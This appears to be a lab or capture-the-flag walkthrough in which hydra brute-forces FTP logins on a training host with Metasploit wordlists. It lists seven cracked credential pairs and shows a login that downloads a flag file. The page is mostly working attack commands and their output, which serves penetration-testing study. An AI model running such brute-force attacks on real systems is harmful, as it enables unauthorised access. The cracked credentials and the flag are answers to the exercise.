 Use the username dictionary /usr/share/metasploit-framework/data/wordlists/common_users.txt and password dictionary /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt to check if any of these credentials work on the system. List all found credentials.

```
sysadmin 654321
rooty qwerty
demo butterfly
auditor chocolate
anon purple
administrator tweety
diag tigger
```

```
root@attackdefense:~# hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.213.192.3 ftp
Hydra v8.8 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-08-21 02:51:44
[DATA] max 16 tasks per 1 server, overall 16 tasks, 7063 login tries (l:7/p:1009), ~442 tries per task
[DATA] attacking ftp://192.213.192.3:21/
[21][ftp] host: 192.213.192.3   login: sysadmin   password: 654321
[21][ftp] host: 192.213.192.3   login: rooty   password: qwerty
[21][ftp] host: 192.213.192.3   login: demo   password: butterfly
[21][ftp] host: 192.213.192.3   login: auditor   password: chocolate
[21][ftp] host: 192.213.192.3   login: anon   password: purple
[21][ftp] host: 192.213.192.3   login: administrator   password: tweety
[21][ftp] host: 192.213.192.3   login: diag   password: tigger
1 of 1 target successfully completed, 7 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-08-21 02:52:30
```

```
root@attackdefense:~# ftp 192.213.192.3
Connected to 192.213.192.3.
220 ProFTPD 1.3.5a Server (AttackDefense-FTP) [::ffff:192.213.192.3]
Name (192.213.192.3:root): sysadmin
331 Password required for sysadmin
Password:
230 User sysadmin logged in
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful
150 Opening ASCII mode data connection for file list
-rw-r--r--   1 0        0              33 Nov 20  2018 secret.txt
226 Transfer complete
ftp> get secret.txt
local: secret.txt remote: secret.txt
200 PORT command successful
150 Opening BINARY mode data connection for secret.txt (33 bytes)
226 Transfer complete
33 bytes received in 0.00 secs (402.8320 kB/s)
ftp> bye
221 Goodbye.
root@attackdefense:~# cat secret.txt 
260ca9dd8a4577fc00b7bd5810298076
```
